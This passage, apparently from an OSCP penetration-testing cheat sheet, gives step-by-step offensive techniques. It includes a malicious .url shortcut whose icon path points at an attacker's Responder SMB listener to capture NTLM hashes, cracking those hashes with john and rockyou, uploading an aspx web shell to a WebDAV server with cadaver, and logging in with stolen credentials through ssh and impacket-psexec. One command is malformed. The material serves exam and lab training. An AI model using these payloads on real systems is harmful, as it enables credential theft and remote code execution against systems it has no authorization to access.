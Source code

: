 `touch <filename>.url` && `nano <filename>.url`

make the file like soo

```python
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\<IpOfResponsder>\%USERNAME%.icon
IconIndex=1
```

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/d8c82d06-5a91-4c61-9176-b1a345af52c8)

IP can be found in repsonder output, Example below on responder while running

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/f23d133f-8da0-436b-9920-c813cb05f491)

connect to SMB share and upload `.url` file

`put <filename>.url`

snag all the hashes and crack with `hashcat` or basic `John` command

`john <HashFile> /usr/share/wordlist/rockyou.txt` 

**Cadaver**

if WebDav is enabled on Web Server and have creds, can use `cadaver` to upload rev shell

scan to see if WebDav is enabled 

`nmap --script http-webdav-scan -p <WebServicePort> <IP>`

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/089e33e2-27c0-4473-aff7-ae72d618bac9)

Run Cadaver

`cadaver http://http://192.168.228.122/<IP>`

upload webshell (If IIS service upload aspx rev shell from the `/usr/share/webshells/aspx/cmdasp.aspx` directyory)

`put <Path-to-Webshell>`

Navigate to webshell in Web Browser and should be all good

---

### **Connecting to box with creds**

ssh with ssh key

`ssh -i <id_rsaKeyName> <IP>`

PsExec

`impacket-psexec <domain>/<username>:<password>@<IP>`

WinRM
